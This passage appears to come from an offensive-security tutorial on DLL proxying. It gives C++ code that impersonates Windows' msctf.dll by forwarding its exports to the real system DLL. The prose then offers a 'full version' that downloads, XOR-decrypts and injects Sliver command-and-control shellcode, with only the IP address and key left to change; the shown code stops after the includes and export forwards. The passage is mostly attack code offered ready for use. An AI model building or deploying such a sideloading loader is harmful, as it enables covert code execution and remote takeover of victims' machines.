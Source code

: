 ```c++
#pragma comment(linker, "/EXPORT:TF_IsCtfmonRunning=" DLLPATH ".TF_IsCtfmonRunning")
#pragma comment(linker, "/EXPORT:TF_IsLanguageBarEnabled=" DLLPATH ".TF_IsLanguageBarEnabled")
#pragma comment(linker, "/EXPORT:TF_IsThreadWithFlags=" DLLPATH ".TF_IsThreadWithFlags")
#pragma comment(linker, "/EXPORT:TF_MapCompatibleHKL=" DLLPATH ".TF_MapCompatibleHKL")
#pragma comment(linker, "/EXPORT:TF_MapCompatibleKeyboardTip=" DLLPATH ".TF_MapCompatibleKeyboardTip")
#pragma comment(linker, "/EXPORT:TF_Notify=" DLLPATH ".TF_Notify")
#pragma comment(linker, "/EXPORT:TF_PostAllThreadMsg=" DLLPATH ".TF_PostAllThreadMsg")
#pragma comment(linker, "/EXPORT:TF_RunInputCPL=" DLLPATH ".TF_RunInputCPL")
#pragma comment(linker, "/EXPORT:TF_SendLangBandMsg=" DLLPATH ".TF_SendLangBandMsg")
#pragma comment(linker, "/EXPORT:TF_SetDefaultRemoteKeyboardLayout=" DLLPATH ".TF_SetDefaultRemoteKeyboardLayout")
#pragma comment(linker, "/EXPORT:TF_SetShowFloatingStatus=" DLLPATH ".TF_SetShowFloatingStatus")
#pragma comment(linker, "/EXPORT:TF_SetThreadFlags=" DLLPATH ".TF_SetThreadFlags")
#pragma comment(linker, "/EXPORT:TF_UninitSystem=" DLLPATH ".TF_UninitSystem")
#pragma comment(linker, "/EXPORT:TF_WaitForInitialized=" DLLPATH ".TF_WaitForInitialized")
#pragma comment(linker, "/EXPORT:TextInputClientWrapperCreate=" DLLPATH ".TextInputClientWrapperCreate")

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    switch (fdwReason)
    {
        case DLL_PROCESS_ATTACH:
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```
now we need to add our own code that downloads, decrypt and injects sliver shellcode.here is the full version of the 
dll after adding our code, all you need to change is the ip address and the xor key

```c++
#include <iostream>
#include "windows.h"
#include "winternl.h"
#include <vector>
#include <string>
#include <fstream>
#include <wininet.h>


#ifdef _WIN64
#define DLLPATH "\\\\.\\GLOBALROOT\\SystemRoot\\System32\\msctf.dll"
#else
#define DLLPATH "\\\\.\\GLOBALROOT\\SystemRoot\\SysWOW64\\msctf.dll"
#endif // _WIN64

#pragma comment(linker, "/EXPORT:CtfImeAssociateFocus=" DLLPATH ".CtfImeAssociateFocus")
#pragma comment(linker, "/EXPORT:CtfImeConfigure=" DLLPATH ".CtfImeConfigure")
#pragma comment(linker, "/EXPORT:CtfImeConversionList=" DLLPATH ".CtfImeConversionList")
#pragma comment(linker, "/EXPORT:CtfImeCreateInputContext=" DLLPATH ".CtfImeCreateInputContext")
#pragma comment(linker, "/EXPORT:CtfImeCreateThreadMgr=" DLLPATH ".CtfImeCreateThreadMgr")
#pragma comment(linker, "/EXPORT:CtfImeDestroy=" DLLPATH ".CtfImeDestroy")
#pragma comment(linker, "/EXPORT:CtfImeDestroyInputContext=" DLLPATH ".CtfImeDestroyInputContext")
#pragma comment(linker, "/EXPORT:CtfImeDestroyThreadMgr=" DLLPATH ".CtfImeDestroyThreadMgr")
```